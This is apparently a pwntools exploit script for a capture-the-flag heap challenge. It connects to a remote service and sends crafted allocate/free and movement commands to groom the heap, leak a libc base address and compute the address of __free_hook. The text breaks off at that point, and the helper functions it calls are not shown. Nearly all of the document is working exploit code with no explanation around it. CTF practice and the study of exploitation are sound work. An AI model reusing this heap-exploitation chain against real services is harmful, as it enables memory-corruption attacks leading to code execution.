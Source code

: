 ```

def up():
    payload=p8(119)
    return payload

def down():
    payload=p8(115)
    return payload

def left():
    payload=p8(97)
    return payload

def right():
    payload=p8(100)
    return payload

def show():
    payload=p8(112)
    return payload

#sh=remote('127.0.0.1',23333)
sh=remote('8.140.179.11',13422)

payload=p8(77)+p8(0x10)+p8(0x10)
payload+=add(1,1,0x90)
payload+=add(1,2,0x30)
for i in range(7):
    payload+=add(1,i+3,0x90)
payload+=add(1,10,0x30)+free(1,10)
for i in range(7):
    payload+=free(1,i+3)
payload+=free(1,1)
payload+=add(1,1,0x90)
payload+=show()

payload+=set_path(0xf,8,2)
for i in range(6):
    payload+=right()*0xf+left()*0xf
payload+=right()*3+left()*3
payload+=right()*8+left()*8
payload+=down()*4
payload+=right()*8
payload+=down()*0xb


payload+=free(1,1)+free(1,2)
payload+=add(1,1,0xd0)+add(1,2,0x30)+add(1,3,0x30)
payload+=add(1,11,0x40)+free(1,11)

sh.sendafter('cmd&gt; ',payload)
pause()
sh.send('\x00'*0x90)
sh.send('\x00'*0x30)
for i in range(7):
    sh.send('\x00'*0x90)
sh.send('\x00'*0x30)
sh.send('a')

sh.recvuntil('pos:1,1\n')
libc_base=u64(sh.recv(3).ljust(8,'\x00'))-0x15d861+0x4000000000 
print(hex(libc_base))
free_hook=libc_base+0x156630
```